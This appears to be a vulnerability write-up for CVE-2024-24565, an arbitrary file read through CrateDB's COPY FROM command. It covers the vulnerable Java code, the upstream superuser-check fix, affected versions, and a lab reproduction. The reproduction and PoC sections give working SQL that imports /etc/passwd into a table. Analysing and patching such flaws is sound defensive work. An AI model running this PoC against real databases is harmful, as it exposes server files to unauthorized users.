

# CVE-2024-24565 CWE-22 Read any CrateDB file

## Vulnerability Background
- **CrateDB**: A distributed SQL database system. It organically combines the SQL functionality of relational databases with the scalability of distributed architectures, enabling efficient storage and processing of large-scale data. Its features include support for standard SQL syntax, making it convenient for users familiar with traditional databases; With distributed features, storage and computing capabilities can be easily expanded by adding nodes, making it suitable for scenarios involving massive data processing, such as IoT data storage and analysis, log data processing, and many data-intensive application areas.
- **COPY FROM**: An SQL command provided by CrateDB for importing data from external files into database tables. It supports JSON and CSV formats and allows data to be read from various URI sources such as local file systems, S3, HTTP, and more. This feature is suitable for scenarios such as batch data import and data migration.

## Vulnerability Mechanism
CrateDB is an open-source distributed SQL database that makes real-time storage and analysis of large amounts of data very simple. The CrateDB database has a `COPY FROM` function used to import file data into database tables. This feature has a drawback: it does not strictly limit the path of accessible files, so authenticated attackers can use `COPY FROM` feature to import arbitrary file contents into database tables, causing information leaks.

## Vulnerability Location
In  server\src\main\java\io\crate\execution\engine\collect\sources\FileCollectSource The `getIterator` function at line **81** of the .java** file handles `COPY FROM` operations by reading data from the specified file and converting it into iterable row data (`BatchIterator<Row>`) for subsequent processing and importation into database tables. The `fileUris` on line 90 is obtained from `fileUriCollectPhase.targetUri()` using the `targetUriToStringList` method, and no path validation is performed afterward. Then follow up with `targetUriToStringList`

```java
   @Override
    public CompletableFuture<BatchIterator<Row>> getIterator(TransactionContext txnCtx,
                                                             CollectPhase collectPhase,
                                                             CollectTask collectTask,
                                                             boolean supportMoveToStart) {
        FileUriCollectPhase fileUriCollectPhase = (FileUriCollectPhase) collectPhase;
        InputFactory.Context<LineCollectorExpression<?>> ctx =
            inputFactory.ctxForRefs(txnCtx, FileLineReferenceResolver::getImplementation);
        ctx.add(collectPhase.toCollect());

        List<String> fileUris = targetUriToStringList(txnCtx, nodeCtx, fileUriCollectPhase.targetUri());
        FileReadingIterator fileReadingIterator = new FileReadingIterator(
            fileUris,
            fileUriCollectPhase.compression(),
            fileInputFactoryMap,
            fileUriCollectPhase.sharedStorage(),
            fileUriCollectPhase.nodeIds().size(),
            getReaderNumber(fileUriCollectPhase.nodeIds(), clusterService.state().nodes().getLocalNodeId()),
            fileUriCollectPhase.withClauseOptions(),
            threadPool.scheduler()
        );
        CopyFromParserProperties parserProperties = fileUriCollectPhase.parserProperties();
        LineProcessor lineProcessor = new LineProcessor(
            parserProperties.skipNumLines() > 0
                ? new SkippingBatchIterator<>(fileReadingIterator, (int) parserProperties.skipNumLines())
                : fileReadingIterator,
            ctx.topLevelInputs(),
            ctx.expressions(),
            fileUriCollectPhase.inputFormat(),
            parserProperties,
            fileUriCollectPhase.targetColumns()
        );
        return CompletableFuture.completedFuture(lineProcessor);
    }
```

2. In line **122**, the main function of the `targetUriToStringList` method is to convert the target URI of type `Symbol` into a string list. This method is usually used to handle file paths or URIs specified in `COPY FROM` operations. Nor have these paths been strictly verified or restricted.

```java
    private static List<String> targetUriToStringList(TransactionContext txnCtx,
                                                      NodeContext nodeCtx,
                                                      Symbol targetUri) {
        Object value = SymbolEvaluator.evaluate(txnCtx, nodeCtx, targetUri, Row.EMPTY, SubQueryResults.EMPTY);
        if (targetUri.valueType().id() == DataTypes.STRING.id()) {
            String uri = (String) value;
            return Collections.singletonList(uri);
        } else if (DataTypes.isArray(targetUri.valueType()) &&
                   ArrayType.unnest(targetUri.valueType()).id() == DataTypes.STRING.id()) {
            //noinspection unchecked
            return (List<String>) value;
        }

        // this case actually never happens because the check is already done in the analyzer
        throw AnalyzedCopyFrom.raiseInvalidType(targetUri.valueType());
    }
```

Therefore, through `COPY FROM`, file contents can be read from any file path.

## Remediation
In `FileCollectSource` class, use `FileReadingIterator::toURI` to convert paths to URIs. Verify whether the URI protocol is `file`; if so, check if the user is a superuser. It retrieves the current user information. Only superusers can read files on the local file system. If the user is not a superuser and tries to read local files, it throws a `UnauthorizedException`.

```java
Role user = requireNonNull(roles.findUser(txnCtx.sessionSettings().userName()), "User who invoked a statement must exist");
         List<URI> fileUris = targetUriToStringList(txnCtx, nodeCtx, fileUriCollectPhase.targetUri()).stream()
             .map(s -> {
                 var uri = FileReadingIterator.toURI(s);
                 if (uri.getScheme().equals("file") && user.isSuperUser() == false) {
                     throw new UnauthorizedException("Only a superuser can read from the local file system");
                 }
                 return uri;
             })
             .toList();
```

## Affected Versions
<=5.3.8, <=5.4.7, <=5.5.3, 5.6.0

## Environment Setup
Start the Docker environment, with Cratedb version 5.5.0



## Vulnerability Reproduction
1. Enter the crate frontend management interface


2. Enter the console and execute the following commands in sequence:

The created `info_leak` table has only one column `info_leak`, type `STRING`

Import data from `/etc/passwd` files into the `info_leak` table in a comma-separated (CSV) format

```sql
CREATE TABLE info_leak(info_leak STRING);
COPY info_leak FROM '/etc/passwd' with (format='csv', header=false);
```


3. Viewing the contents of the `info_leak` table, you can see the user account information stored in the `/etc/passwd` file: high-privilege account root, system service account bin, regular or special user nobody.

```sql
SELECT * FROM info_leak;
```


## PoC Analysis
The created `info_leak` table has only one column `info_leak`, and the type is `STRING`

Import data from `/etc/passwd` files into the `info_leak` table using comma-separated values (CSV).

```sql
CREATE TABLE info_leak(info_leak STRING);
COPY info_leak FROM '/etc/passwd' with (format='csv', header=false);
SELECT * FROM info_leak;
```

## References
[CrateDB database has an arbitrary file read vulnerability · CVE-2024-24565 · GitHub Advisory Database](https://github.com/advisories/GHSA-475g-vj6c-xf96)

[CVE-2024-24565 CrateDB Database Arbitrary File Read Vulnerability - CSDN Blog](https://blog.csdn.net/shelter1234567/article/details/136191448)

[CrateDB database has an arbitrary file read vulnerability · Advisory · crate/crate](https://github.com/crate/crate/security/advisories/GHSA-475g-vj6c-xf96)

[Restrict `COPY FROM` using local files to superuser · crate/crate@b75aeea](https://github.com/crate/crate/commit/b75aeeabf90f51bd96ddb499903928fd10185207#diff-5722b00c7bf34912cae67505eb95284bafda64f0c5d7c873a7b9ccef840c205a)
